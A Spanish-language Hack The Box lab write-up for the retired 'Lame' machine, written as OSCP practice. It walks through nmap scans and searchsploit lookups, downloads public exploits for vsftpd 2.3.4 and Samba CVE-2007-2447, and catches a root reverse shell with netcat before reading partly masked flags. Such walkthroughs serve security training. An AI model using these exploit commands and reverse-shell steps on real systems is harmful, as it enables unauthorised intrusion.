 ```yaml
---
layout: post
title:  "Maquina  Retirada Lame de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada LAME siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Samba, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.3       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4										-comprobando version
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m27s, deviation: 2h49m45s, median: 1m24s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-03T17:06:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
Comenzamos buscando en `SAEARCHSPLOIT` por las versiones de los servicios encontrados:
```bash
# searchsploit vsftpd 2.3.4           
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                        | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Encontramos que para la version 2.3.4 vsftpd hay un RCE buscamos a nivel de github porque solo aparecia uno RCE para su uso en Metasploit (NO PODEMOS USARLO)
Asique buscamos por algun exploit igual pero en `python` para comprobar si funciona. Nos descargamos el siguiente exploit
```bash
# wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py 
```
```bash
# python3 vsftpd_234_exploit.py -h
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
                                                                                                                                                                                
┌──(root💀kali)-[/home/…/HTB/OSCP/Lame/exploits]
└─# python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```
---------------- NO NOS FUNCIONA ---------------
 
 Prodecemos a seguir enumerando con `SEARCHSPLOIT` el servicio `SAMBA`:
 ```bash
 # searchsploit samba 3.0.2
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                              | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 ```
 Encontramos otro exploit posiblemente funcional pero para su uso con Metasploit, y nosotros no Usamos Metasploit, esta Prohibido para el OSCP.
 Vamos a buscar a nivel de github por algun exploit para la version de `samba 3.0.2`. Nos descargamos el siguiente exploit
 ```bash
 # wget https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py  
 ```
 Procedemos a pasarle los datos que nos pide `RHOST` `RPORT` `LHOST` `LPORT` y nos ponemos a la escucha por el `LPORT` indicado con una session de `netcat`.
 ```bash
 # python3 usermap_script.py 10.10.10.3 139 10.10.14.5 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
 ```
 Ejecutamos el Exploit `usermap_script.py` y recibimos una conexion como el usuario `root` directamente.
 ```bash
 # nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.132] from (UNKNOWN) [10.10.10.3] 60661
script /dev/null -c bash
root@lame:/# 
 ```
 Sacamos las Flags:
 Para el `user.txt`:
 ```bash
 root@lame:/home/makis# cat user.txt
353f01d477d0f5b98e2b545d7xxxxxxxxx
 ```
 Para el `root.txt`:
 ```bash
root@lame:/root# cat root.txt
70da9f983f2a6f92d0936a3aaxxxxxxxxx
 ```
